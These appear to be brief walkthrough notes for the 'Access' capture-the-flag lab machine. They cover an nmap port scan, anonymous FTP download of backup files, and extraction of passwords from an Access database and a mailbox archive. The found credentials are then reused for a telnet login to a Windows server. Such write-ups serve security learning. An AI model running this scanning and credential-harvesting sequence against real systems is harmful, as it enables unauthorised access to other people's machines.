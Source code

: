# Access 10.10.10.98
Windows


nmap -sS -sV -p- -oN access.txt 10.10.10.98

$ ftp> open 10.10.10.98
anonymous access
ftp> cd xx
ftp> ls -aihl           : All files includinh hidden
ftp> binary
ftp> get backup.mdb
ftp> get 'Access Control.zip'

backup.mdb : Standard Jet DB


$ sudo apt-get install mdb-tools

MDB Utilities
mdb-tables   : list tables in the specified file
mdb-schema   : generate schema DDL for the specified file
mdb-export   : generate CSV style output for a table
mdb-ver      : display the version of the specified file
mdb-header   : support for using MDB data in C
mdb-parsecsv : support for using MDB data in C
mdb-sql      : command line SQL query tool

$ mdb-tables backup.mdb
$ mdb-export backup.mdb auth_user
  27,"engineer","access4u@security",1,"08/23/18 21:13:36",26,

Acces_Control.zip : unzip not working, need p7zip
$ unzip ac.zip
Archive:  ac.zip
   skipping: Access Control.pst      unsupported compression method 99
Access Control.pst

=> Password protected AES
$ p7zip -d ac.7z


$ cat 'Access Control.mbox'
The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure  this is passed on to your engineers.


telnet 10.10.10.98
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
Welcome to Microsoft Telnet Service

Login security
Paswword 4Cc3ssC0ntr0ller

C:\Users\security>systeminfo
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
